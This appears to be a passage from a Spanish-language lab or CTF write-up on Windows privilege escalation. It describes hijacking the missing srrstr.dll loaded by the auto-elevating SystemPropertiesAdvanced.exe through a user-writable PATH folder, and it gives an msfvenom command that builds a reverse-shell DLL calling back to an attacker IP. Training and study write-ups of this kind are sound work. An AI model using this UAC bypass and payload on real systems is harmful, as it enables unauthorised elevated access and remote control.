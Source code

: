 <img width="1010" height="198" alt="image" src="https://github.com/user-attachments/assets/4afaee0b-6493-4240-80c8-bf2c70133bf6" />

Esto es una evidencia de que el ejecutable contiene un manifiesto con `autoElevate=true`, es decir, el binario solicita que ciertas invocaciones se les conceda elevaciones automáticas.

Nosostros sabemos que el binario intenta cargar la dll `srrstr.dll`, la cuál no existe.

En el momento en que se intente ejecutar el binario `SystempropertiesAdvanced.exe` el sistema irá a buscar la dll al Path.

Seguidamente revisamos la variable `Path`

```powershell
cmd /c echo %PATH%
```
<img width="998" height="109" alt="image" src="https://github.com/user-attachments/assets/3eae6af4-5ec3-4622-9a20-3b9335d9e89b" />

Encontramos en el path la ruta `C:\Users\sarah\AppData\Local\Microsoft\WindowsApps` 

Nuestro usuario tiene permiso de escritura sobre esa ruta. Esto quiere decir que podriamos colocar una dll maliciosa con el nombre `srrstr.dll` en esa ruta y lograr que el binario la ejecute en un contexto elevado.

El siguiente paso es generar la `dll` maliciosa en nuestra máquina con `msfvenom`
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.7 LPORT=7777 -f dll > srrstr.dll
```
<img width="818" height="192" alt="image" src="https://github.com/user-attachments/assets/2f773ec5-58f9-4e1c-a442-1719107f38a2" />

















